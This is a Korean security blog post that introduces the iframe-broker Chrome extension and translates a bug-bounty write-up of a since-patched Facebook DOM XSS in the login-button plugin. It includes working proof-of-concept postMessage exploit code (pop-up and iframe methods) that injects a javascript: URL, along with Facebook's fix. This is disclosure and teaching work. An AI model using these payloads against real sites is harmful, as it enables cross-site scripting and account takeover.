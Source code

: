 ```yaml
---
layout: post
title:  "iframe broker & Story of Facebook DOM XSS"
author: "jeong.su"
comments: true
tags: [web]
---
```


라온화이트햇 핵심연구팀 최정수([jeon95u@gmail.com](mailto:jeon95u@gmail.com))


이 글은 [Vinoth Kumar](https://vinothkumar.me/)가 지난 4월 Facebook의 DOM XSS를 발견하여 제보하고 2만 달러의 포상금을 받은 [게시글](https://vinothkumar.me/20000-facebook-dom-xss/)을 번역한 내용이 포함되어 있습니다. 추가로 해당 취약점을 찾기 위해 [Vinoth Kumar](https://vinothkumar.me/)가 개발한 Iframe과 Cross Window communications 로그를 쉽게 확인 할 수 있는 크롬 익스텐션을 사용하고 어떻게 적용할 수 있을지 고민했습니다.

---

# iframe broker

---

iframe broker는  [Vinoth Kumar](https://vinothkumar.me/)가 Cross Window Communication 로그를 쉽게 확인하기 위해서 작성한 Chrome Extension 입니다.

해당 도구의 간단한 원리는 message를 후킹하여 보여주는 방식입니다

Javascript는 아래와 같이 간단한 스크립트로 후킹할 수 있습니다.

```jsx
var origin_parse = window.JSON.parse;

window.JSON.parse = function(arg){
/* Something Do It! */
/* ex) console.log(arg) */
return origin_parse(arg);
}
```

iframe broker의 사용법은 아래와 같습니다.

```bash
git clone https://github.com/vinothsparrow/iframe-broker
```

우선 git clone 명령어를 통해 특정 폴더에 iframe-broker를 받아줍니다.

![/assets/bd2f2d57-db96-4a00-8b4b-95448a489543/9680797e-d1ef-4857-b3e2-0da9ee7ab169.png](/assets/bd2f2d57-db96-4a00-8b4b-95448a489543/9680797e-d1ef-4857-b3e2-0da9ee7ab169.png)

Chrome Extension 추가를 위해 개발자 모드 옵션을 활성화 시켜줍니다. 해당 옵션을 활성화 시켜주게되면 `압축해제된 확장 프로그램을 로드합니다.` 버튼이 생기며 클릭을 통해 clone 해준 iframe-broker 폴더를 선택해줍니다.

![/assets/85b6ceaf-3565-47cd-b65f-12aa7cb8b535/5b9b6572-8ba4-4984-a5d4-a72b0f832085.png](/assets/85b6ceaf-3565-47cd-b65f-12aa7cb8b535/5b9b6572-8ba4-4984-a5d4-a72b0f832085.png)

Iframe Broker가 정상적으로 로드된 것을 확인 할 수 있습니다.

![/assets/bd53c735-b1b8-40f8-a86c-bfd2d2a7abd7/a391c04c-77cb-4b68-aab7-690a51b4c54d.png](/assets/bd53c735-b1b8-40f8-a86c-bfd2d2a7abd7/a391c04c-77cb-4b68-aab7-690a51b4c54d.png)

위와 같이 Chrome Extension을 통해 Domain간 통신하는 메세지를 쉽게 확인 할 수 있으며 클라이언트 사이드의 취약점을 찾는데 편리한 도구라는 생각이듭니다. 아래는 해당 Chrome Extension 개발자가 개발 후 Extension을 사용하면서 직접 취약점을 찾은 내용을 번역했습니다.

# Story of [$20000 Facebook DOM XSS](https://vinothkumar.me/20000-facebook-dom-xss/)

---

> window.postMessage() method를 사용하면 생성 된 페이지와 팝업 사이 또는 페이지와 페이지에 포함된 iframe 사이와 같은 Window 객체 간의 cross-origin 통신을 안전하게 할 수 있습니다. - [Mozilla postMessage Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)

postMessage 및 도메인 간 통신에 대해 더 알고 싶다면 아래 문서를 읽는 것이 좋습니다.

- [How cross window/frame communication happens in Javascript](https://javascript.info/cross-window-communication)
- [https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/](https://labs.detectify.com/2016/12/08/the-pitfalls-of-postmessage/)
- [https://ngailong.wordpress.com/2018/02/13/the-mystery-of-postmessage/](https://ngailong.wordpress.com/2018/02/13/the-mystery-of-postmessage/)

## Background

> postMessage를 통한 DOM XSS는 과소 평가 된 취약점이며 많은 버그바운티 헌터들에게는 눈에 띄지 않는 취약점입니다.

최근에 open dashboards 및 credentials 취약점을 찾는 대신 클라이언트 쪽 취약점을 찾기 시작했습니다.

([HackerOne에 리포트된 보고서](https://hackerone.com/vinothkumar)를 본다면 대부분 나의 리포트는 open dashboard 또는 Github credential leak 입니다.) 

처음에는 XSSI, JSONP 및 postMessage 관련 된 보안 문제를 찾기 시작했습니다. 그러나 XSSI 및 JSONP 취약점은 매우 드물며 [SameSite 쿠키](https://blog.reconless.com/samesite-by-default/)가 도입 된 이후 이 취약점은 사라질 것입니다. 따라서 postMessage 취약점을 살펴 보는 데 집중했습니다. postMessage 취약점은 주로 보안 연구원이 대부분 무시하지만 디버깅이 쉽고 방화벽을 우회 할 필요가 없습니다.

또한 디버깅을 더 쉽게하기 위해 페이지에서 발생하는 cross window communication의 view/log를 위한 [Chrome extension을 개발](https://github.com/vinothsparrow/iframe-broker) 했습니다.

일반적으로 웹 사이트는 위젯, 플러그인 또는 웹 SDK에서 iframe 통신을 사용합니다. 따라서 페이스북의 iframe 보안 문제를 찾으려고 시작하자마자 [https://developers.facebook.com](https://developers.facebook.com/)으로 이동하여 Facebook의 third-party 플러그인을 보기 시작했습니다.

그리고 cross-domain 통신을 위해서 `Facebook Login SDK for JavaScript`는 `v6.0/plugins/login_button.php`에서 proxy iframe을 만들며 proxy frame에서는 `Continue with Facebook` 버튼을 렌더링 해줍니다. 여기서 흥미로운 점은 javascript SDK가 proxy frame에 버튼의 클릭 URL이 포함 된 초기화 페이로드를 전송 한다는 것입니다.

로그인 SDK의 흐름은 아래와 같습니다.

```jsx
Third-Party website + (Facebook Login SDK for JavaScript)
```

↓

```jsx
<iframe src='https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&button_type=continue_with&channel=REDIRECT_URL&sdk=joey'>
</iframe>
```

↓

```jsx
// Facebook Javascript SDK는 초기화 payload를 iframe proxy에게 보냅니다.
iframe.contentWindow.postMessage({"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'INT_ID',
'url':'https://www.facebook.com/v7.0/dialog/oauth?app_id=APP_ID&SOME_OTHER_PARAMS',
'size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971'screenWidth':1680}}})},"origin":"APP_DOMAIN"}, '*')
```

↓

```jsx
// 유저가 Login with Facebook 버튼을 클릭하면 proxy iframe에서 특정 URL을 open 합니다.
window.open('https://www.facebook.com/v7.0/dialog/oauth?app_id=APP_ID')
```

↓

```jsx
// 팝업 윈도우는 accesstoken과 signed-request를 third-party website에게 postMessage를 사용하여 보냅니다.
window.opener.parent.postMessage(result, origin)
```

해당 초기화 payload를 주의 깊게 살펴보면 SDK가 Facebook 플러그인 iframe으로 전송합니다. url 파라미터는 i라는 변수에 저장 되며 버튼이 클릭 되어 이벤트가 트리거 될 때 아래 함수가 실행됩니다.

![/assets/69ede5d3-8ba8-4af5-9ac8-fd925cbbe6d8/3dd7a08c-1d2a-4348-b669-0f7647a99b6b.png](/assets/69ede5d3-8ba8-4af5-9ac8-fd925cbbe6d8/3dd7a08c-1d2a-4348-b669-0f7647a99b6b.png)

```jsx
i.url = i.url.replace(/cbt=\d+/, "cbt=" + a);
a = window.open(i.url, i.id, b("buildPopupFeatureString")(i));
```

위 Javascript 코드를 보았을 때 나는 "무언가 왔구나! 취약점이 내게 왔구나! 😉"를 느꼈습니다.

왜냐하면 Javascript 코드에는 URL/Scheme 유효성 검사가 존재하지 않았습니다. 따라서 아래와 같이 DOM XSS를 할 수 있었습니다.

`window.open('javascript:alert(document.domain)')`

그래서 우리가 `url:'javascript:alert(document.domain)'`와 같은 페이로드를 보내는 경우 받는 사람은 iframe이 [`https://www.facebook.com/v6.0/plugins/login_button.php`](https://www.facebook.com/v6.0/plugins/login_button.php)를 방문하고 사용자가 `Continue With Facebook`버튼을 클릭하게 되면  [facebook.com](http://facebook.com/) 도메인에서 `javascript:alert(document.domain)`와 같은 Javascript가 실행됩니다. 

## Exploiting the Iframe

위 보안 이슈를 통해 익스플로잇 하는 방법은 2가지가 있습니다.

### 1. Pop-up Method

```jsx
<script>   
   var opener = window.open("https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&auto_logout_link=false&button_type=continue_with&channel=REDIRECT_URL&container_width=734&locale=en_US&sdk=joey&size=large&use_continue_as=true","opener", "scrollbars=no,resizable=no,status=no,location=no,toolbar=no,menubar=no,width=500,height=1");
   
   setTimeout(function(){
        var message = {"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'123','url':'javascript:alert(document.domain);','size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971,'screenWidth':1680}}})},"origin":"ORIGIN"};
        opener.postMessage(message, '*');
    },'4000');
</script>
```

### 2. Iframe Method

`X-Frame-Options` 또는 CSP `frame-ancestors` 헤더가 누락 되었으므로 이 페이지는 공격자의 페이지에 쉽게 포함될 수 있습니다.

```jsx
<script>
function fbFrameLoaded() {
  var iframeEl = document.getElementById('fbframe');
  var message = {"xdArbiterHandleMessage":true,"message":{"method":"loginButtonStateInit","params":JSON.stringify({'call':{'id':'123','url':'javascript:alert(document.domain);','size':{'width':10,'height':10},'dims':{'screenX':0,'screenY':23,'outerWidth':1680,'outerHeight':971,'screenWidth':1680}}})},"origin":"ORIGIN"};
  iframeEl.contentWindow.postMessage(message, '*');
};
</script>
<iframe id="fbframe" src="https://www.facebook.com/v6.0/plugins/login_button.php?app_id=APP_ID&auto_logout_link=false&button_type=continue_with&channel=REDIRECT_URL&container_width=734&locale=en_US&sdk=joey&size=large&use_continue_as=true" onload="fbFrameLoaded(this)"></iframe>
```

## Fix

Facebook은 `url` 파라미터에 정규식 검사를 추가하여 domain과 schema가 존재하는지 확인하는 방법으로 패치했습니다.

```jsx
d = b("isFacebookURI")(new (g || (g = b("URI")))(c.call.url)),
j = c.call;
d || (j.url = b("XOAuthErrorController").getURIBuilder().setEnum("error_code", "PLATFORM__INVALID_URL").getURI().toString())
```

## Proof of Concept

[https://youtu.be/KAnuFy2F7QA](https://youtu.be/KAnuFy2F7QA)

## Impact

잘못된 post message 설정 때문에 누군가는 공격자의 웹세이트에 접속하고 페이스북으로 로그인하기 버튼을 클

릭함으로써 [facebook.com](http://facebook.com) 도메인에 XSS가 발생하고 **한 번의 클릭 만으로 계정을 탈취** 할 수 있습니다.